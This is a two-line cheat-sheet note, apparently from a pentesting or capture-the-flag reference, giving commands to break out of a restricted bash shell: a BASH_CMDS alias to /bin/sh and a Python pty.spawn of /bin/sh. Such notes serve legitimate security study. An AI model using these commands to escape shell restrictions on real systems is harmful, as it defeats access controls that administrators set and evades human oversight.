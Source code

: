 # rbash breakout

```
BASH_CMDS[a]=/bin/sh;a
python -c "import pty;pty.spawn('/bin/sh')" (if you have access to python)
```
